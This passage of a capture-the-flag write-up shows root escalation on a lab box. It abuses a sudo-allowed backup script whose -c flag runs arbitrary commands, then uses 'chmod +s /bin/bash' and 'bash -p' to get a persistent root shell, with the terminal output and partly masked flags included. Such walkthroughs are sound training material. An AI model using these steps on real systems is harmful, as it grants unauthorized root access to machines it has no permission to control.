    - Reads optional `-c` flag argument (stored in `$command`).
    - Defines a list of music files (backup_files) in Alex's home directory.
    - Creates a tar archive (`hostname-scheduled.tgz`) of those music files, saved to `/etc/mp3backups/`.
    - Prints status messages.
    - Finally, runs the command stored in `$command` and echoes its output.

- Why this is important for privilege escalation:
    - The script runs with sudo privileges for user alex without password.
    - It accepts a `-c` flag that runs any command passed to it as root (due to `cmd=$($command)` line).
    - You can run arbitrary commands as root by passing -c 'your_command' when executing the script!

### How to exploit:

Since alex can run:
```bash
sudo /etc/mp3backups/backup.sh -c "whoami"
```
This will run whoami as root output, we can see in the last message
```bash
alex@ubuntu:/etc/mp3backups$ sudo /etc/mp3backups/backup.sh -c "whoami"
find: /home/alex/Music/image12.mp3
/home/alex/Music/image7.mp3
/home/alex/Music/image1.mp3
...
...
tar: /home/alex/Music/song9.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song10.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song11.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song12.mp3: Cannot stat: No such file or directory
tar: Exiting with failure status due to previous errors

Backup finished
root
```

You can replace `"whoami"` with any command to gain root shell `"/bin/bash"`:
```bash
sudo /etc/mp3backups/backup.sh -c "/bin/bash"
```
```bash
alex@ubuntu:/etc/mp3backups$ sudo /etc/mp3backups/backup.sh -c "/bin/bash"
find: ‘/run/user/108/gvfs’: Permission denied
/home/alex/Music/image12.mp3
/home/alex/Music/image7.mp3
/home/alex/Music/image1.mp3
...
...
tar: /home/alex/Music/song10.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song11.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song12.mp3: Cannot stat: No such file or directory
tar: Exiting with failure status due to previous errors

Backup finished
root@ubuntu:/etc/mp3backups# 
```
## ⚠️ Problem:
when we try to run commands like id, pwd, or ls via the -c option, they don’t execute properly. This could be due to environment restrictions, limited shell, or how the script runs commands.

We use `"chmod +s /bin/bash"` inside because setting the SUID bit on `/bin/bash` lets us run a root shell later as a normal user, which helps bypass the issue of commands not running directly through the script.

```bash
sudo /etc/mp3backups/backup.sh -c "chmod +s /bin/bash"
```
then, simply run
```bash
/bin/bash -p 
```
We get a root shell because the shell runs with root privileges due to the SUID bit.

```bash
bash-4.3# id 
uid=1000(alex) gid=1000(alex) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare),1000(alex)
bash-4.3# 
```

## Post-Exploitation
### Flags
- User
```bash
alex@ubuntu:~$ cat user.txt
flag{1_hop3_y0u_****_***_arch1v3s_saf3}
```
- Root
```bash
bash-4.3# cat root.txt
flag{Than5s_f0r_*******_****_y0u_enJ053d}
bash-4.3# 
```

